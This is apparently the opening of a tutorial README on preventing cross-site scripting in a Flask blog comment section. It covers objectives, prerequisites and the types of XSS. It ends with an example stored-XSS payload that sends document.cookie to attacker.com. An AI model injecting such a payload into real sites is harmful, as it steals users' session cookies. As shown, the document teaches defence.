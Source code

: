 # Example 2: Cross-Site Scripting (XSS) Prevention

## 🎯 Learning Objectives

By completing this example, you will:

1. **Understand** what Cross-Site Scripting (XSS) is and its variants
2. **Identify** XSS vulnerabilities in web applications
3. **Implement** proper output encoding/escaping
4. **Apply** Content Security Policy (CSP) headers
5. **Use** modern frameworks' built-in protections

## 📋 Prerequisites

- Basic HTML, CSS, JavaScript knowledge
- Understanding of HTTP requests/responses
- Python 3.8+ with Flask

**Required Tools**:
```bash
pip install flask
```

**Estimated Time**: 45-60 minutes

---

## 🔍 Problem Description

### The Scenario

You're building a comment section for a blog where users can post comments that include their name. The application displays these comments to other users.

### The Vulnerability

If user input is displayed without proper encoding, attackers can inject malicious JavaScript that executes in other users' browsers. This is called **Cross-Site Scripting (XSS)**.

### XSS Attack Types

1. **Reflected XSS**: Malicious script comes from the current HTTP request
2. **Stored XSS**: Malicious script is stored in the database
3. **DOM-based XSS**: Vulnerability exists in client-side JavaScript

### Example Attack

Attacker submits comment:
```html
<script>
document.location='http://attacker.com/steal?cookie='+document.cookie
</script>
```
